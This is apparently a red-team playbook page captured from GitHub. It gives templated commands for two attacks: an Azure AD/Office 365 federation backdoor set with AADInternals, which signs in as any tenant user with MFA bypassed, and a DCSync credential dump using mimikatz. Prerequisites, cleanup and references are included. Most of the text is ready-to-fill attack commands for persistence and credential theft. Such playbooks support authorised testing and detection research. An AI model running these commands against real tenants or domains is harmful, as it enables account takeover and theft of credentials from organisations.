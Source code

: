 ### Guidance

To set the backdoor 

```
PS> ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "{{ domain }}"
```

To use the backdoor. This works for any user in the tenant, regardless of their domain.

```
Open-AADIntOffice365Portal -ImmutableID {{ id }} -UseBuiltInCertificate -ByPassMFA $true -Issuer {{ issuer }}
```

- `id` is the immutable ID of the target user
- `issuer` is the IssuerUri provided in the output of the previous command 

### Cleanup

- Delete the domain

### Notes

- The domain must be verified for the backdoor to work

### References

- https://o365blog.com/post/aadbackdoor/
- https://www.mandiant.com/resources/blog/detecting-microsoft-365-azure-active-directory-backdoors

# Credential Access

## DCSync - via Mimikatz

The DCSync attack mimics normal replication behavior between DCs, allowing for remote extraction of credentials

Uses Mimikatz's lsadump::dcsync command

### Prerequisites

- Command execution in the context of an account with Active Directory replication rights
- User accounts to target
- Mimikatz binary (https://github.com/gentilkiwi/mimikatz)

### Guidance

```
mimikatz> lsadump::dcsync /domain:{{ domain }} /user:{{ target_username }}
```

### Troubleshooting

